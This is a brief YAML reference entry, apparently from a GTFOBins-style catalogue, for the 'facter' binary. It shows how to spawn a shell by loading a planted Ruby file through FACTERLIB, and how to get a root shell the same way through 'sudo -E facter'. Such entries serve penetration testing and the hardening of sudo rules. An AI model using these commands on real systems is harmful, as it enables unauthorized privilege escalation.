 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF sudo -E facter
---
```

